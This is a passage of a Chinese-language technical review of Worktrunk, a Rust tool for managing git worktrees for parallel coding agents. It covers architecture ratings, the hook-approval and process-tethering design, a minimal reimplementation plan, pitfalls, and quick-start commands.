| **架构简洁性** | ✅ 优秀 | 277 个源文件分层清晰（`config/` / `commands/` / `git/` / `shell/` / `styling/` / `trace/`）；核心枚举只有 10 个变体；`is_pre` 用穷尽 match 强制分类 |
| **扩展性** | ✅ 优秀 | Hook 14 时点 × user/project 双源 × 名称过滤（`user:foo` / `project:foo`）三层正交组合；别名系统支持自定义 `wt <name>`；4 个 CI 平台（GitHub/GitLab/Gitea/Azure）用统一 `ci_platform` trait 抽象 |
| **易用性** | ✅ 优秀 | 分支名寻址消灭路径心智负担；`wt switch -c -x claude feat` 一行完成建 worktree + 启动 Agent；shell 集成让命令能 cd（支持 bash/zsh/fish/nu/powershell 五种） |

### 8.2 右侧：性能 / 复杂度 / 维护性

| 维度 | 评价 | 依据 |
|---|---|---|
| **性能** | ✅ 优秀 | Rust 单二进制，冷启动毫秒级；reflink 让 10 个 worktree 的 target/ 占用 ≈ 1 份；`wt list` 的 CI 状态有缓存层（`ci_status/cache.rs`）+ 渐进式渲染（`list/progressive.rs`）；有专门的 benchmark 套件（`benches/time_to_first_output.rs`） |
| **复杂度** | ⚠️ 中等 | `src/commands/worktree/switch.rs` 单文件 **102,588 字符**——这是全项目最大的文件，也是最可能出回归的地方；但项目用 60+ 个 `insta` snapshot 测试兜住了渲染层 |
| **维护性** | ✅ 优秀 | 80 位贡献者；注释密度极高且写「为什么」不写「是什么」；测试快照数量惊人（`src/**/snapshots/` 下几十个 `.snap`）；代码注释里有明确的取舍论证（"there is no slop" 不是营销，是作者 max-sixty 的自我要求） |

**`switch.rs` 10 万字符是唯一的减分项。** 它承担了 switch + create + start + picker 路由 + shell 集成 + 所有 Hook 触发，是一个「God file」。好在它有充分的 snapshot 测试覆盖，重构的风险可控。

### 8.3 一个被低估的成本：文档站是自动生成的

README 里有一段：

```
> ⚠️ AUTO-GENERATED from docs/src/content/docs/worktrunk.md#context-git-worktrees..worktrunk-makes-git-worktrees-as-easy-as-branches — edit source to update
```

**文档站 `worktrunk.dev` 的核心内容从 `docs/src/content/docs/worktrunk.md` 自动生成进 README。** 这意味着：

- ✅ 好处：文档和代码同一处维护，不会漂移
- ⚠️ 代价：改 README 会被 CI 覆盖（想改文案必须改 `docs/` 下的源）

这是**正确的工程取舍**——文档漂移比改文案麻烦更让人痛苦。但对想贡献文案的人来说是个学习成本。

---

## 九、从零搭建启示：我的最小可行实现

如果我要自己复刻这套机制，MVP 应该长什么样？

### 9.1 必须做的（缺了系统就不成立）

| 组件 | 最小实现 | 大概行数 |
|---|---|---|
| **worktree 寻址** | 分支名 → 模板渲染路径 | 80 行 |
| **两层信任审批** | `HookSource` 枚举 + 入口闸门 + 独立信任文件 | 120 行 |
| **进程组守护** | `setsid()` + `killpg` + 250ms stat 轮询 | 100 行 |
| **shell 集成** | 至少 bash + zsh 的 `wt` 函数（能 cd） | 60 行 |

### 9.2 可以先省略的

- **reflink CoW**（前提：你的项目编译缓存不大，或者磁盘够用）
- **14 个 Hook 时点**（先做 `post-start` 一个就够——装依赖）
- **多 CI 平台集成**（先只支持 GitHub）
- **交互式 picker**（先用 `wt list` 纯文本输出）
- **LLM commit message**（这是锦上添花，不是基础设施）

### 9.3 踩坑预警（我踩过 / 我看到的）

**坑 1：忘了 `setsid()`，用了 `killpg(os.getpid())` 的近似写法**

最常见的错误是「用 `Popen` 之后 `os.killpg(os.getpgid(proc.pid), SIGTERM)`」。这**可能杀到自己**——如果 `proc` 没有 `start_new_session=True`，它的 pgid 就是你自己的 shell 所在的组。**必须 `start_new_session=True`。**

**坑 2：把审批写进 `config.toml`**

这是最反直觉但最重要的一个坑。看起来「审批也是配置啊」，但两者生命周期完全不同：配置要同步，信任不能同步。**第一步就要把 `approvals.toml` 拆出来**，不然等到你想用 dotfile 时已经被污染了。

**坑 3：忘了「审批的是模板不是展开值」**

如果用户在审批界面上看到的是展开后的 `npm install --prefix /home/me/repo/myrepo`，而你存的是模板 `npm install`，那么用户审的就不是你要存的东西。**Worktrunk 的注释专门强调了这点**（"Shows command templates to the user (what gets saved to config), not expanded values"），因为模板里可能有 `{{branch}}` 这样的变量，展开值每次都不一样。

**坑 4：tether 的 `working_dir` 捕获时机**

源码里这段注释值得注意：

```rust
let worktree = std::env::current_dir().ok();
// ... Captured before applying `-C` to the child so the reaper watches the
// worktree root even when the command runs in a subdirectory.
```

**必须在应用 `-C` 之前捕获 worktree 根路径。** 否则用户跑 `wt tether -C frontend -- npm run dev` 时，reaper 监视的是 `frontend/` 而不是 worktree 根，worktree 被删了它也不知道。

**坑 5：Windows 上的进程组语义不同**

Unix 的 `killpg` 能打到 reparent 到 PID 1 的孤儿，Windows 的 `taskkill /T /F` 做不到（前提是父进程还活着）。**如果你要支持 Windows，别假装两者等价**——Worktrunk 在文档里明说了这个缺口，你也应该。

### 9.4 最小命令集

如果只做 5 个命令，够用了：

```bash
wt switch <branch>          # 切到 worktree（不存在就建）
wt switch -c -x claude feat  # 建 + 启动 Agent（一行搞定并行开 Agent）
wt list                     # 列出所有 worktree + 状态
wt remove <branch>          # 清理 worktree + 回收进程
wt step tether -- CMD        # 托管一条命令的整棵进程树
```

这 5 个命令就是 Worktrunk 三个核心命令 + 两个 step 的最小版本。**加上审批闸门，一个可用的并行 Agent 底座就完成了。**

---

## 十、总结与行动建议

### 10.1 Worktrunk 教了我们什么

**第一，基础设施的价值在于不被注意到。** Worktrunk 全程没有讨论 prompt、没有讨论模型、甚至 README 里连 "LLM" 这个词都很少出现。**这恰恰说明抽象层次选对了。** 好的基础设施不需要向上解释自己。

**第二，安全设计的价值在「默认拒绝」而不是「聪明判断」。** Approve at the Gate 不试图用启发式判断「这个 hook 看起来无害」，而是把「来源是项目配置」这件事直接编码进类型，然后让用户在入口处做一次决定。**这道闸门的价值不在于它拦住了多少攻击，而在于它让「执行新代码」永远需要一个显式的人的动作。**

**第三，「轮询一个 stat」经常打败「注册一个 watcher」。** step tether 的注释给出了一个我认为应该被广泛引用的判据：*文件系统的 watcher 泛滥，本身就是你要解决的问题*。在 100 个并发进程的规模下，多线程事件驱动的复杂度成本远超 250ms 轮询。

**第四，可移植性和信任必须分离。** `config.toml` 同步，`approvals.toml` 不同步。这个 5 行的设计决策，避免了一整类「我的开发机被我的 dotfile 攻陷了」的诡异事故。

### 10.2 如果你今天就想上手

**立刻能做（5 分钟）**：

```bash
# 1. 装
brew install worktrunk && wt config shell install
# 或 cargo install worktrunk && wt config shell install

# 2. 在你的项目里试一次「一行开 Agent」
wt switch -c -x claude feat-login

# 3. 看看 14 个 Hook 时点里哪些对你有用
cat .config/wt.toml   # 项目级配置（需要审批）
cat ~/.config/worktrunk/config.toml   # 用户级（免审批）
```

**本周该做的**：

1. **审计你的并行 Agent 现状**——打开 `git worktree list`，如果你有 3 个以上并行 Agent 在共享一个目录，**今天就已经在互相破坏了**
2. **给项目加 `.worktreeinclude`**——哪怕只写一行 `target/` 或 `node_modules/`，也能省下每次重编译的时间
3. **写一个 `post-start` hook**——最实用的两个：`npm install`（装依赖）和 `wt step tether -- npm run dev`（托管 dev server）

**下一个季度该想的**：

Worktrunk 的 `wt list --full` 已经把 **CI 状态 + AI 生成的 per-branch 摘要** 塞进了一个命令里。这预示着下一步的方向：**并行 Agent 的管理界面会从「文件列表」升级成「任务状态面板」**。ccpm 用 GitHub Issues 做意图层状态，Worktrunk 在做物理层状态——**两者迟早会在一个 TUI 里汇合**。

### 10.3 最后的判断

如果你每天开 3 个以上并行 Agent，**装 Worktrunk 的 ROI 大约是 5 分钟**。如果你只开 1 个，先别装——你的瓶颈不在这里。

但如果你正在设计任何**多 Agent 系统**（哪怕不是 coding agent），本文有一句话是要带走的：

> **你的 Agent 之间传消息的协议再精巧，都补不上「两个进程同时写同一个 inode」这个洞。这个洞只能靠操作系统原语来补，不能靠模型来补。**

---

### 参考资料

- Worktrunk 仓库：https://github.com/max-sixty/worktrunk
- 文档站：https://worktrunk.dev
- 关键源文件：
  - `src/commands/command_approval.rs` — Approve at the Gate
  - `src/commands/step/tether.rs` — 进程组守护
  - `src/commands/step/copy_ignored.rs` — reflink CoW
  - `src/config/approvals.rs` — 信任状态分离
  - `src/git/mod.rs:546` — HookType 枚举
- 对比项目：
  - ccpm — https://github.com/automazeio/ccpm
  - jean — https://github.com/coollabsio/jean
  - agent-worktree — https://github.com/nekocode/agent-worktree